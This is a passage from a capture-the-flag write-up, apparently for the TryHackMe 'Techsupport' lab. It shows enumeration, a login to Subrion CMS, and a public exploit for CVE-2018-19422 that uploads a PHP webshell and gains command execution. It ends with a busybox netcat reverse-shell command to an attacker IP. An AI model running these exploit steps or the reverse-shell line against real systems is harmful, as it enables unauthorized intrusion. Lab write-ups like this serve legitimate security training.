 ```bash
/wp-admin             (Status: 301) [Size: 323] [--> http://10.10.12.52/wordpress/wp-admin/]
```

It seems to be only a wordpress instance so I analyzed it with `wpscan`. I tried several 
techniques but this was a rabbit hole.

### /subrion Analysis
There must be something with subrion, so let's search for the CMS. By simply combine what I found earlyier the website was found:
```html
http://10.10.12.52/subrion/panel/
```
I was able to login with the credentials:

![Subrion CMS Version](/assets/img/tryhackme/Techsupport/thm_techsupport_2.jpg)

The website reveals the CMS version on the right. A quick search gave me this <a href="https://www.exploit-db.com/exploits/49876">exploit-db</a> entry.

```bash
$ python3 exploit.py -u http://10.10.12.52/subrion/panel/ -l admin -p Scam2021 
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.12.52/subrion/panel/
[+] Success!
[+] Got CSRF token: iWSPOTIyhm592Vu8N65jCeb7QR5RuVJ0bKtnxuiE
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: kcpluiqkqieghuv

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.12.52/subrion/panel/uploads/kcpluiqkqieghuv.phar 

$ whoami
www-data
$ which busybox
	/bin/busybox

$ busybox nc [attacker ip] 9001 -e sh
```
